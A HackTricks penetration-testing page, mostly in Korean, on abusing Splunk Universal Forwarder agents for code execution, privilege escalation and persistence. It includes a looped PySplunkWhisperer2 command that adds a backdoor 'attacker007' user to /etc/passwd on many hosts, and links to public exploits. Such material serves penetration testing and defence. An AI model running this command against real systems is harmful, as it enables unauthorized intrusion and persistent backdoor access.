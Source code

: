 # Splunk LPE and Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

만약 **내부** 또는 **외부**에서 머신을 **열거**하는 중에 **Splunk가 실행 중**인 것을 발견하고, 운이 좋게도 **유효한 자격 증명**을 알고 있다면, **Splunk 서비스를 악용**하여 Splunk를 실행 중인 사용자로서 **쉘을 실행**할 수 있습니다. 만약 root가 실행 중이라면, root 권한으로 상승할 수 있습니다.

또한 이미 root인 경우 Splunk 서비스가 localhost에서만 수신 대기하지 않는다면, Splunk 서비스에서 **비밀번호** 파일을 **가로채고** 비밀번호를 **크랙**하거나, **새로운** 자격 증명을 추가할 수 있습니다. 그리고 호스트에서 지속성을 유지할 수 있습니다.

아래 첫 번째 이미지에서 Splunkd 웹 페이지가 어떻게 생겼는지 볼 수 있습니다.



## Splunk Universal Forwarder Agent Exploit Summary

자세한 내용은 [https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/)를 확인하세요. 이것은 요약입니다:

**Exploit Overview:**
Splunk Universal Forwarder Agent (UF)를 대상으로 하는 익스플로잇은 에이전트 비밀번호를 가진 공격자가 에이전트가 실행 중인 시스템에서 임의의 코드를 실행할 수 있게 하여 전체 네트워크를 위험에 빠뜨릴 수 있습니다.

**Key Points:**
- UF 에이전트는 들어오는 연결이나 코드의 진위를 검증하지 않아 무단 코드 실행에 취약합니다.
- 일반적인 비밀번호 획득 방법에는 네트워크 디렉토리, 파일 공유 또는 내부 문서에서 찾는 것이 포함됩니다.
- 성공적인 익스플로잇은 손상된 호스트에서 SYSTEM 또는 root 수준의 접근, 데이터 유출 및 추가 네트워크 침투로 이어질 수 있습니다.

**Exploit Execution:**
1. 공격자가 UF 에이전트 비밀번호를 획득합니다.
2. Splunk API를 사용하여 에이전트에 명령이나 스크립트를 전송합니다.
3. 가능한 작업에는 파일 추출, 사용자 계정 조작 및 시스템 손상이 포함됩니다.

**Impact:**
- 각 호스트에서 SYSTEM/root 수준의 권한으로 전체 네트워크가 손상됩니다.
- 탐지를 피하기 위해 로깅을 비활성화할 가능성.
- 백도어 또는 랜섬웨어 설치.

**Example Command for Exploitation:**
```bash
for i in `cat ip.txt`; do python PySplunkWhisperer2_remote.py --host $i --port 8089 --username admin --password "12345678" --payload "echo 'attacker007:x:1003:1003::/home/:/bin/bash' >> /etc/passwd" --lhost 192.168.42.51;done
```
**사용 가능한 공개 익스플로잇:**
* https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2
* https://www.exploit-db.com/exploits/46238
* https://www.exploit-db.com/exploits/46487


## Splunk 쿼리 악용

**자세한 내용은 [https://blog.hrncirik.net/cve-2023-46214-analysis](https://blog.hrncirik.net/cve-2023-46214-analysis) 게시물을 확인하세요.**

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
